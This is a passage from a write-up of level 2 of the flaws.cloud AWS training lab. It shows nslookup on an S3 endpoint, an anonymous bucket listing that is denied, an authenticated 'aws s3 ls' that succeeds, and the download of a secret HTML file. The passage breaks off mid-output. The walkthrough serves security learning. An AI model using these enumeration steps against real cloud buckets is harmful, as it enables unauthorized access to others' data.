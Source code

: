 2- `Nslookup` to find if it's a AWS s3 bucket
{% highlight bash %}
┌──(fumenoid㉿kali)-[~]
└─$ nslookup 52.218.182.130
130.182.218.52.in-addr.arpa     name = s3-website-us-west-2.amazonaws.com.

Authoritative answers can be found from:
{% endhighlight %}

As it's a static site hosted on s3 bucket, the bucket name should be equal to the domain/subdomain name, hence we can go to `http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud.s3.amazonaws.com/` to access the bucket but

{% include image.html path="documentation/Pasted image 20211023032557.png"
path-detail="documentation/Pasted image 20211023032557.png"
alt="Level 2" %}

Seems like it is secured this time, lets try `CLI`

{% highlight bash %}
┌──(fumenoid㉿kali)-[~]
└─$ aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --no-sign-request

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
{% endhighlight %}

Hint 1, we said we need our own AWS account for this.. hmm, guess we might really need one : /

welp fuck.. 

Configuring AWS profile
{% highlight bash %}
┌──(fumenoid㉿kali)-[~]
└─$ aws configure                                                                  
AWS Access Key ID [None]: [Redacted]
AWS Secret Access Key [None]: [Redacted]
Default region name [None]: 
Default output format [None]: 
{% endhighlight %}

Now attempting to read the content of `s3 bucket` with our keys, not really sure how it works but will read the summary properly

{% highlight bash %}
┌──(fumenoid㉿kali)-[~]
└─$ aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --profile default
2017-02-26 21:02:15      80751 everyone.png
2017-03-02 22:47:17       1433 hint1.html
2017-02-26 21:04:39       1035 hint2.html
2017-02-26 21:02:14       2786 index.html
2017-02-26 21:02:14         26 robots.txt
2017-02-26 21:02:15       1051 secret-e4443fc.html
{% endhighlight %}

Reading the secret file - `CLI`
{% highlight bash %}
┌──(fumenoid㉿kali)-[~]
└─$ aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html - --profile default
<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000; 
            border-width: 1px; border-style: solid;} 
        </style>